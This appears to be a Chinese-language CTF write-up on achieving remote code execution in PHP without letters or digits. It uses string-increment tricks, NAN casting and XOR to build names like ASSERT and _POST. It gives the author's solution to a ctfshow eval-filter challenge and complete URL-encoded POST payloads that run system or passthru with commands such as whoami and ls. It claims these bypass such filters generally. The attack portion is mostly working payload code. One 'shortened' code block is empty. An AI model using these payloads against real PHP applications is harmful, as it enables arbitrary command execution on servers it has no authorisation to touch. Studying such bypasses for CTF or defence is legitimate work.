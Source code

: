 ## **用自增实现无字母RCE**
前提能$符号

有如下
```
"A"++ ==> "B"
"B"++ ==> "C"
```
也就是说，如果我们能够得到"A"，那么我们就能通过自增自减，得到所有的字母。那么问题就转化为怎么得到一个字符"A"。
在PHP中如果强制连接数组和字符串的话，数组将被转换成字符串，其值为"Array"。
再取这个字符串的第一个字母，就可以获得"A"。
```
<?php
$a = ''.[];
var_dump($a);
```
组合
```
<?php
$_=[].'';   //得到"Array"
$___ = $_[$__];   //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___;   //$__="A"
$_ = $___;   //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$___ .= $__;   //$___="AS"
$___ .= $__;   //$___="ASS"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;   //得到"E"，此时$__="E"
$___ .= $__;   //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;   //得到"R"，此时$__="R"
$___ .= $__;   //$___="ASSER"
$__++;$__++;   //得到"T"，此时$__="T"
$___ .= $__;   //$___="ASSERT"
$__ = $_;   //$__="A"
$____ = "_";   //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"P"，此时$__="P"
$____ .= $__;   //$____="_P"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"O"，此时$__="O"
$____ .= $__;   //$____="_PO"
$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$____ .= $__;   //$____="_POS"
$__++;   //得到"T"，此时$__="T"
$____ .= $__;   //$____="_POST"
$_ = $$____;   //$_=$_POST
$___($_[_]);   //ASSERT($POST[_])
```
缩减后
```
```

学习：<https://www.cnblogs.com/m1xian/p/18360023>
注意：执行的时候要进行一次 URL 编码+好，否则 Payload 无法执行。




^
## **如果允许0，可以更短**
还有1/_==INF，下划线也可快速构造NAN，如

```bash
	$a=_/_._;   // NAN_
```

如此，有`'N'==$a[0]`
N 跟 O 很近，构造 _POST，通过二次引用即 $\_POST[0](https://www.cnblogs.com/viistar/p/$_POST%5B_%5D); 可执行任意php代码。\
注意$a++; ++$a;的区别，建议先加再用。\
能用的短变量有`$_` 、`$__` 、`$_0` 三个.后面才知道还能用不可见字符替换php变量名称`$%ff`，这样就更短了。\
题目

```php
	<?php

	//本题灵感来自研究Y4tacker佬在吃瓜杯投稿的shellme时想到的姿势，太棒啦~。

	error_reporting(0);

	highlight_file(__FILE__);

	 

	if (isset($_POST['ctf_show'])) {

	    $ctfshow = $_POST['ctf_show'];

	    if (is_string($ctfshow) && strlen($ctfshow) <= 84) {

	        if (!preg_match("/[a-zA-Z1-9!'@#%^&*:{}\-<\?>\"|`~\\\\]/",$ctfshow)){

	            eval($ctfshow);

	        }else{

	            echo("Are you hacking me AGAIN?");

	        }

	    }else{

	        phpinfo();

	    }

	}
```

我的解法81位

```php
	<?php 

	$a=(_/_._)[0];// NAN 取 N

	$aa=++$a;// O

	$a0=++$a.$aa;// PO

	++$a/++$a;

	$a=_.$a0.=++$a.++$a;// _.POST

	$$a[0]($$a[_]);

	//var_dump($a);
```

去掉注释，php开头，替换a为下划线得

```powershell
	$_=(_/_._)[0];$__=++$_;$_0=++$_.$__;++$_/++$_;$_=_.$_0.=++$_.++$_;$$_[0]($$_[_]);
```

接下来url编码，post传`ctf_show=xxxxx&0=system&_=ls`，搞定！

ps: url编码的三种方法\
1.python 的from urllib import quote\
2.php的 echo urlencode\
3.burp suite 的decode 标签\
最短rce5长度72，以后通杀无字母数字！

```
ctf_show=$_=_(_/_)[_];$__=++$_;$$__[$__=_.++$_.$__[$_++/$_++].++$_.++$_]($$__[_]);&_POST=system&_=whoami

ctf_show=%24%5F%3D%5F%28%5F%2F%5F%29%5B%5F%5D%3B%24%5F%5F%3D%2B%2B%24%5F%3B%24%24%5F%5F%5B%24%5F%5F%3D%5F%2E%2B%2B%24%5F%2E%24%5F%5F%5B%24%5F%2B%2B%2F%24%5F%2B%2B%5D%2E%2B%2B%24%5F%2E%2B%2B%24%5F%5D%28%24%24%5F%5F%5B%5F%5D%29%3B&%5FPOST=system&%5F=whoami
```

passthru命令执行
执行外部程序并且显示原始输出
```
ctf_show=%24_%3D(_%2F_._)%5B0%5D%3B%24__%3D%2B%2B%24_%3B%24__%3D_.%2B%2B%24_.%24__%3B%2B%2B%24_%3B%2B%2B%24_%3B%24__.%3D%2B%2B%24_.%2B%2B%24_%3B%24%24__%5B0%5D(%24%24__%5B_%5D)%3B&0=passthru&_=whoami
```

^
## **其他**
```
<?php
    @$_++; // $_ = 1
    $__=("#"^"|"); // $__ = _
    $__.=("."^"~"); // _P
    $__.=("/"^"`"); // _PO
    $__.=("|"^"/"); // _POS
    $__.=("{"^"/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```